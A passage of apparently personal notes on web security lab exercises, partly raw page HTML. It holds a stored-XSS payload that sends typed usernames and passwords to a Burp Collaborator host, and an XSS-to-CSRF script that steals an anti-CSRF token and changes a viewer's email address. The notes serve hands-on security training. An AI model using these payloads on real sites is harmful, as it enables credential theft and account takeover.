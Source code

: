        </div>
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://mwmtx7rsry5n5s8aqittdm7v4maey3.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

#### Exploiting XSS to perform CSRF

> This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
>
>You can log in to your own account using the following credentials: wiener:peter

Other Way

```javascript
<script>
var req = new XMLHttpRequest;
req.onreadystatechange = function() {
	if (req.readyState == 4) {
        var regx = /name="csrf" value="(.*)"/g;
        var token = regx.exec(req.responseText)[1];
        
        var params = 'email=pwned@evil-user.net&csrf=' + token;
        var req2 = new XMLHttpRequest;
        req2.open('POST', '/my-account/change-email');
        req2.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        req2.send(params);
	}
}
req.open('GET', '/my-account');
req.send();
</script>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Log in using the credentials provided. On your user account page, notice the function for updating your email address.
                    </li>
                    <li>
                        If you view the source for the page, you'll see the following information:
                        <ul>
                            <li>
                                You need to issue a POST request to <code>/my-account/change-email</code>, with a parameter called <code>email</code>.
                            </li>
                            <li>
                                There's an anti-CSRF token in a hidden input called <code>token</code>.
                            </li>
                        </ul>
                        This means your exploit will need to load the user account page, extract the <a href="/web-security/csrf/tokens">CSRF token</a>, and then use the token to change the victim's email address.
                    </li>
                    <li>
                        <p>